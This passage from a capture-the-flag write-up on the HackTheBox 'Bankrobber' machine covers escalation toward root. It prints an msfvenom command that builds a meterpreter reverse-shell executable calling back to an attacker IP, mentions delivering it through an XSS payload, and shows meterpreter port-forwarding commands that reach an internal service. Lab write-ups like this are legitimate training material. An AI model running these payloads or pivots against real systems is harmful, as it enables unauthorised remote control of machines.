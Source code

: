 <p>
<img src="{{ '/assets/htb-bankrobber/user-shell2.PNG' | relative_url }}">
</p>

<p>No time to rest, we're only getting started!</p>

<h1>Root exploitation</h1>

<p>Firstly we should try and upgrade our shell. While our initial shell served its purpose, it is quite limited. Let's see if we can get a meterpreter session up and running.</p>

{% highlight shell %}
root@kali:/var/www/html# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.23 LPORT=4444 -f exe -o payload.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of exe file: 73802 bytes
Saved as: payload.exe
{% endhighlight %}

<p>Now let's craft up another XSS payload and get the executable downloaded on to the host then trigger it from our first shell.</p>

<p>
<img src="{{ '/assets/htb-bankrobber/root-meterpreter.PNG' | relative_url }}">
</p>
<p>
<img src="{{ '/assets/htb-bankrobber/root-meterpreter2.PNG' | relative_url }}">
</p>
<p>
<img src="{{ '/assets/htb-bankrobber/root-meterpreter3.PNG' | relative_url }}">
</p>

<p>A bit of recon with our new shell and we find a potentially interesting binary as well as a service running on port 910 locally that we did not see externally.</p>

<p>
<img src="{{ '/assets/htb-bankrobber/root-recon.PNG' | relative_url }}">
</p>
<p>
<img src="{{ '/assets/htb-bankrobber/root-recon2.PNG' | relative_url }}">
</p>

<p>We want to give this port a closer look. A good way of doing this is to forward the 910 port to our local machine.</p>

{% highlight shell %}
meterpreter > portfwd add -l 910 -p 910 -r 10.10.10.154
[-] You must supply a local port, remote host, and remote port.
meterpreter > portfwd add -l 910 -p 910 -r 10.10.10.154
[*] Local TCP relay created: :910 <-> 10.10.10.154:910
meterpreter > 
{% endhighlight %}
